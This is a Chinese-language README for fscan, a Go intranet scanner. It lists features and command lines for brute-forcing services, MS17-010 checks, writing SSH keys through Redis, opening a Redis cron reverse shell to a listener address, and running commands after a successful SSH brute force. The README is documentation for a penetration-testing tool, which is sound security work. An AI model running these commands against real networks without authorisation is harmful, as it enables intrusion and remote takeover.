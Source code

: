 # fscan

# 简介
一款内网扫描工具，方便一键大保健。    
支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写私钥、计划任务反弹shell、读取win网卡信息、web漏洞扫描等。  
趁着最近有空，用go把f-scrack重构了一遍。使用go来编写，也有更好的扩展性及兼容性。  
还在逐步增加功能，欢迎各位师傅提意见。


## why
为什么有LadonGo、x-crack 、tscan、Gscan 这些工具了还要写fscan

答：  
因为用习惯了f-scrack，习惯一条命令跑完所有模块，省去一个个模块单独调用的时间，当然我附加了-m 指定模块的功能。

## 最近更新
[+] 2021/2/25 修改yaml解析模块,支持密码爆破,如tomcat弱口令。yaml中新增sets参数,类型为数组,用于存放密码,具体看tomcat-manager-week.yaml  
[+] 2021/2/8 增加指纹识别功能,可识别常见CMS、框架,如致远OA、通达OA等。  
[+] 2021/2/5 修改icmp发包模式,更适合大规模探测。   
修改报错提示,-debug时,如果10秒内没有新的进展,每隔10秒就会打印一下当前进度    
[+] 2020/12/12 已加入yaml解析引擎,支持xray的Poc,默认使用所有Poc(已对xray的poc进行了筛选),可以使用-pocname weblogic,只使用某种或某个poc。需要go版本1.16以上,只能自行编译最新版go来进行测试    
[+] 2020/12/6 优化icmp模块,新增-domain 参数(用于smb爆破模块,适用于域用户)  
[+] 2020/12/03 优化ip段处理模块、icmp、端口扫描模块。新增支持192.168.1.1-192.168.255.255。  
[+] 2020/11/17 增加-ping 参数,作用是存活探测模块用ping代替icmp发包。   
[+] 2020/11/17 增加WebScan模块,新增shiro简单识别。https访问时,跳过证书认证。将服务模块和web模块的超时分开,增加-wt 参数(WebTimeout)。    
[+] 2020/11/16 对icmp模块进行优化,增加-it 参数(IcmpThreads),默认11000,适合扫B段  
[+] 2020/11/15 支持ip以文件导入,-hs ip.txt,并对去重做了处理

## usege
简单用法
``` 
go run main.go -h 192.168.1.1/24
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写私钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
```
```
-h 192.168.1.1/24 (C段)  
-h 192.168.1.1/16 (B段)
-h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
-hf ip.txt  (以文件导入)
```


完整参数
```
  -Num int
        poc rate (default 20)
  -c string
        exec command (ssh)
  -domain string
        smb domain
  -h string
        IP address of the host you want to scan,for example: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hf string
        host file, -hs ip.txt
  -it int
        Icmp Threads nums (default 11000)
  -m string
        Select scan type ,as: -m ssh (default "all")
  -no
        not to save output log
  -nopoc
        not to scan web vul
  -np
        not to ping
  -o string
        Outputfile (default "result.txt")
  -p string
        Select a port,for example: 22 | 1-65535 | 22,80,3306 (default "21,22,80,81,135,443,445,1433,1521,3306,5432,6379,7001,8000,8080,8089,11211,27017")
  -ping
        using ping replace icmp
  -pocname string
        use the pocs these contain pocname, -pocname weblogic
  -proxy string
        set poc proxy, -proxy http://127.0.0.1:8080
  -pwd string
        password
  -pwdf string
        password file
  -rf string
        redis file to write sshkey file (as: -rf id_rsa.pub)
  -rs string
        redis shell to write cron file (as: -rs 192.168.1.1:6666)
  -t int
        Thread nums (default 200)
  -time int
        Set timeout (default 3)
  -user string
        username
  -userf string
        username file
  -wt int
        Set web timeout (default 3)

```

## 运行截图

`fscan.exe -h 192.168.x.x  (全功能、ms17010、读取网卡信息)`
![](image/1.png)

![](image/4.png)

`fscan.exe -h 192.168.x.x -rf id_rsa.pub (redis 写私钥)`
![](image/2.png)

`fscan.exe -h 192.168.x.x -c "whoami;id" (ssh 命令)`
![](image/3.png)

`fscan.exe -h 192.168.x.x -p80 -proxy http://127.0.0.1:8080 一键支持xray的poc`
![](image/2020-12-12-13-34-44.png)

## 未来计划
[*] 合理输出当前扫描进度  
[*] 增加内网常见高危漏洞  
[*] 增加高危web漏洞扫描  
[*] 师傅们觉得有必要加的漏洞，也可以提issue


## 参考链接
https://github.com/Adminisme/ServerScan  
https://github.com/netxfly/x-crack  
https://github.com/hack2fun/Gscan  
https://github.com/k8gege/LadonGo   
https://github.com/jjf012/gopoc
